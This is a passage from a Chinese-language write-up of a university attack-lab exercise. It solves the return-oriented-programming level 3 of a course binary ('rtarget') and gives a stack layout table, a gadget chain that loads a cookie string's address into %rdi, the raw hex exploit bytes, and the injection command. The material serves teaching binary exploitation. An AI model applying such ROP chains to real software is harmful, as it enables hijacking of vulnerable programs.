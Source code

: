 ```
Cookie: 0x286582b8
Type string:Touch2!: You called touch2("286582b8")
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 3
最终目的和Part I中的level3一样，要将cookie所在字符串的地址传入`%rdi`并触发`touch3`。
我构造了这样一个步骤：

|栈底|
|:---:|
|……|
|cookie:`0x323836353832623800`
|`&touch3`|
|`movq %rax,%rdi`|
|`lea (%rdi,%rsi,1),%rax`|
|`movq %rax,%rdi`|
|`movq %rsp,%rax`|
|`movl %edx,%esi`|
|`movl %ecx,%edx`|
|`movl %eax,%ecx`|
| bias:`0x20`|
|`popq %rax`<br>`ret`| 
|`buf`的24个字节|
|栈顶|
再对照我列的gadgets表写出攻击代码：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
41 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
d5 19 40 00 00 00 00 00
94 19 40 00 00 00 00 00
f0 19 40 00 00 00 00 00
ae 19 40 00 00 00 00 00
17 19 40 00 00 00 00 00
4a 19 40 00 00 00 00 00
17 19 40 00 00 00 00 00
80 18 40 00 00 00 00 00
32 38 36 35 38 32 62 38
00
```
注入攻击：`./hex2raw < phase5 | ./rtarget`
成功：
